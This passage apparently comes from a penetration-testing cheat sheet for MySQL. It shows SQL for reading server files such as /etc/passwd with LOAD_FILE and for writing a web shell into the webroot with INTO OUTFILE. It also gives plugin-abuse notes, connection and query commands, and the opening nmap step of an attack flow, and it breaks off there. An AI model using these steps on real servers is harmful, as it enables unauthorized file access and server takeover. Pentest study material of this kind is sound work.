 
## File Read/Write & RCE Primitives (when allowed)

Check `secure_file_priv`:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

If NULL or writable:

```sql
-- Read server files (needs FILE privilege)
SELECT LOAD_FILE('/etc/passwd');

-- Write to disk (web shell drop if webroot path is writable)
SELECT '<php code>' INTO OUTFILE '/var/www/html/shell.php';
```

UDF/Plugin abuse is version/OS-specific; modern MySQL 8 with `caching_sha2_password` hardens many paths—still check plugin directories and `INSTALL PLUGIN` privileges.

---

## Useful CLI Operations

### Connect

```bash
mysql -u <user> -p<pass> -h <IP>
```

### Core SQL

```sql
SHOW DATABASES;
USE <database>;
SHOW TABLES;
SHOW COLUMNS FROM <table>;
SELECT * FROM <table> LIMIT 10;
SELECT * FROM <table> WHERE <column>='<string>';
```

---

## Attack Flow (End-to-End)

1. **Discover**
    
    ```bash
    nmap -sV -sC -p3306 --script mysql* <IP>
    ```
    
    Note version, auth plugin, empty/valid accounts.
    
2. **Authenticate**
    